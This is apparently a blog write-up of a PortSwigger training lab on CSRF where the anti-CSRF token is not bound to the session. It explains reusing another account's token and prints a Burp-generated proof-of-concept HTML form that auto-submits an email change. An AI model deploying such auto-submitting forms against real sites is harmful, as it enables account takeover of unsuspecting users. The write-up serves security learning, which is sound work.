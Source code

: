 ```yaml
---
layout: post
title:  "CSRF where token is not tied to user session"
date:   2024-10-01 09:39:54 +0530
---
```


## Objective 

<!DOCTYPE html>
<html lang="en">
<body>

    <p>
        This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, 
        but they aren't integrated into the site's session handling system.
    </p>

    <p>
        To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
    </p>

    <p>
        You have two accounts on the application that you can use to help design your attack. The credentials are as follows:
    </p>

    <div class="credentials">
        <p><strong>wiener</strong>: peter</p>
        <p><strong>carlos</strong>: montoya</p>
    </div>

</body>
</html>

## Solution 

We do have two accounts right one is `wiener` and another one is `carlos` and where just like the other labs the `Update Email` is vulnerable to CSRF attack where as mentioned in the lab objective 

Once after updating the email once through UI and again did the same.. Then Intercepted through the burp and sent the request once again.. Unfortunately.. CSRF token is used only once and everytime it resets.. In our case, Applies the same here you can see I faced an error 

![]({{ site.baseurl }}/assets/images/csrf-10.png) 

What else, I logged in as `carlos` and copied the CSRF token.. used it in the following request and it worked !! where I just need a valid CSRF token and it isn't tied to the session 

![]({{ site.baseurl }}/assets/images/csrf-11.png)

Let's generate a CSRF POC, here is how it looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8e00b303e188c480c121ab007c004e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="se&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="obAPC9kDWecO5QxpcOohLevTLG11WGi9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Now we can replace the value of `csrf` and put it to the exploit server.. Then deliver the exploit to victim.. That solves a lab 

![]({{ site.baseurl }}/assets/images/csrf-12.png)
